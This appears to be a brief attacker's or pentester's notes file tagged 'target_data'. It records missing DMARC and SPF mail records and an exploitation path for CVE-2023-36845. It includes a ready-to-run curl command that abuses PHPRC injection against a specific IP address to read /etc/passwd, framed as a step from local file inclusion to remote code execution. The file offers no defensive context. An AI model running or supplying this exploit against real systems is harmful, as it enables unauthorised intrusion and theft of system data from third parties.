 ```yaml
---
tags:
  - target_data
---
```

1. Missing `DMARC` records -> Missing `spf` records-> Mail Server Misconfiguration leads
2. CVE-2023-36845 -> LFI to RCE -> `curl --insecure "https://195.144.106.238/?PHPRC=/dev/fd/0" --data-binary 'auto_prepend_file="/etc/passwd"'`